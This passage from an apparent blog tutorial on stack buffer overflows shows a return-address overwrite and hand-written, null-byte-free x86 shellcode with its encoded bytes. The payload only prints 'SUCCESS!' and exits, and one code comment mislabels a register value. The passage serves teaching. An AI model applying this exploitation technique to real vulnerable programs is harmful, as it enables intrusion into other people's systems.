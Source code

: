 Now that we have a new understanding of the stack, we can try again to exploit it:

![return address overflowed](/assets/2017-12-6-shellcoding/overflowed_return_address.png)

We have successfully overwritten the return address of the function! Now we need to write some shellcode and change the return address of the program to point to it.

## Writing Shellcode

Actually writing shellcode is quite easy. You can do this by writing some assembly and assembling it. Then you can extract the binary from the object file. My framework for shellcode development can be found [here](https://github.com/gilderjw/shellcode). Another good resource is [shell-storm.org](http://shell-storm.org/shellcode/). This website has a bunch of different examples of shellcode for different architectures. One thing to keep in mind when writing shellcode is that you cannot have any null bytes if the overflow is due to a call to `gets()`. To overcome this restriction, an attacker has to get a little creative to accomplish their goal.

<strong>My shellcode:</strong>
```nasm
.section .text
.intel_syntax noprefix
.global main

main:
    mov edx, 0x08080808         # not length of string yet, need to shift
    shr edx, 24                 # edx = 8
    
    push 0x21535345             # ESS!
    push 0x43435553             # SUCC
    mov ecx, esp
    
    mov ebx, 0x01010101         # use stdio as file descriptor
    shr ebx, 24                 # ebx = 1

    mov eax, 0x04040404         # fwrite system call
    shr eax, 24                 # eax = 4

    int 0x80                    # syscall

    mov eax, 0x01010101         # exit system call
    shr eax, 24                 # eax = 3

    int 0x80                    # syscall
```

This assembly code will set up the registers and evoke the write system call to print the string 'SUCCESS!' to standard output. When I create shellcode out of this with my framework, I get the string: `'\xba\x08\x08\x08\x08\xc1\xea\x18\x68\x45\x53\x53\x21\x68\x53\x55\x43\x43\x89\xe1\xbb\x01\x01\x01\x01\xc1\xeb\x18\xb8\x04\x04\x04\x04\xc1\xe8\x18\xcd\x80\xb8\x01\x01\x01\x01\xc1\xe8\x18\xcd\x80'`

